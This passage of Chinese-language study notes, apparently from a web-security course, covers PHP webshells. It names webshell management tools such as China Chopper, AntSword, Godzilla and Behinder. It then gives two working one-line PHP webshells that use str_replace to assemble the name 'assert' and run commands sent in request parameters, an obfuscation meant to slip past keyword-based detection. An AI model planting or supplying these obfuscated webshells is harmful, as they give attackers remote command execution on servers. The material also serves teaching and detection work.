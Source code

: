 ![array_filter](../../images/8-17-afternoon/array_filter.png)

#### (3)管理工具

##### a.中国菜刀

##### b.C刀

##### *c.蚁剑*

##### d.哥斯拉

##### e.冰蝎

#### (4)变形

##### a. str_replace

###### ①关键字查找

```php
<?php
$a = str_replace("abc","","aabcsabcsabceabcrabct");
@$a($_REQUEST['cmd']);
?>
```

![str_replace1](../../images/8-17-afternoon/str_replace1.png)

###### ②关键字替换

```php
<?php
$b = "assexx";
$c = str_replace("xx","rt",$b);
@[""=>$c($_GET[_])];
?>
```

![str_replace2](../../images/8-17-afternoon/str_replace2.png)
